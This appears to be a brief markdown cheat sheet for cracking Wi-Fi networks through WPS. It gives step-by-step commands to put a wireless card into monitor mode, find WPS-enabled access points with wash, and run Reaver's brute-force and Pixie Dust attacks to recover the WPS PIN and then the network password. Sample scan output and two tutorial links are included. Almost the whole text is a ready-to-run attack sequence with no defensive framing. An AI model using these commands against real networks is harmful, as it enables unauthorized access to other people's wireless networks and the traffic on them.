 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

### Check for networks with wps available
```text
wash -i wlan0mon
```

```text
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

### Attacks to retrieve the pin

#### standard attack
```text
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv
```

#### pixie dust offline attack - (-K 1)
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1
```

### Resolve password from pin
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678
```



https://kalitut.com/wifi-attack-with-wps-using-reaver/

https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
